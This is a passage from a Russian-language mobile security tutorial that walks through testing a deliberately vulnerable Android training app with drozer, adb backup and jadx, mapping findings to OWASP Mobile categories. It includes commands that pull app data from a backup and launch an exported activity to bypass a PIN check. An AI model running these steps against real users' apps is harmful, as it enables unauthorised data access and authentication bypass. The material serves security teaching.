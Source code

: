 Теперь можно запустить агента и включить встроенный сервер. После чего можно установить образ Droze-а и запустить его:
```shell
$ docker pull kengannonmwr/drozer_docker
$ docker run -it kengannonmwr/drozer_docker
root@25e99a93aee2:/# drozer console connect --server 192.168.14.35
dz>
```
**Для подключения нужно выяснить IP адрес смартфона**

Далее определяем поверхность атаки:
```shell
dz> list #покажет список всех доступных модулей, это на домашнее изучение
dz> run app.package.attacksurface com.redmadrobot.vulnerableapp
Attack Surface:
  2 activities exported
  0 broadcast receivers exported
  0 content providers exported
  0 services exported
```
Тут же можно сразу посмотреть манифест:
```shell
dz> run app.package.manifest  com.redmadrobot.vulnerableapp
```
Обнаружили, что включена возможность бэкапов, сделаем бэкап:
```shell
$ adb backup -f backup.ab -noapk com.redmadrobot.vulnerableapp
$ dd if=backup.ab ibs=24 skip=1 | openssl zlib -d > bakup.tar
#alternative
$ dd if=backup.ab bs=24 skip=1 | python -c "import zlib,sys;sys.stdout.buffer.write(zlib.decompress(sys.stdin.buffer.read()))" > bakup.tar
$ tar xzvf bakup.tar
```
Дальше рассматриваем то, что забэкапилось. По OWASP это **M1: Improper Platform Usage**. Смотрим, что там набэкапилось и видим частично открытые Shared Preferences. Это уже M2: Insecure Data Storage. С зашифрованным паролем разберемся чуть позже.
Теперь можно запустить MainActivity и обойти проверку pin-кода. Это соответствует **M1: Improper Platform Usage** и **M6: Insecure Authorization**.
```shell
dz> run app.activity.start --component com.redmadrobot.vulnerableapp com.redmadrobot.vulnerableapp.MainActivit
```

### [jadx-gui](https://github.com/skylot/jadx)
Устанавливаем jadx. Версия из Homebrew иногда падает при перетаскивании окна по разным мониторам. С версией из исходников такой проблемы нет.
```shell
$ brew install jadx # macOS
$ sudo pacman -S jadx # Arch Linux

#alternative
$ git clone https://github.com/skylot/jadx.git
$ cd jadx
$ ./gradlew dist
$ cd build/jadx/bin
$ ./jadx-gui
```
Дальнейшие действия относятся к **M9: Reverse Engineering** (приложение не обфусцировано и никак не защищено).
Исследуем экран авторизации. Видим, что есть кнопка, которая явно скрывается перед установкой обработчика нажатия:
```kotlin
public final class LoginFragment extends Hilt_LoginFragment {
    ...
    public void onViewCreated(View view, Bundle bundle) {
        ...
```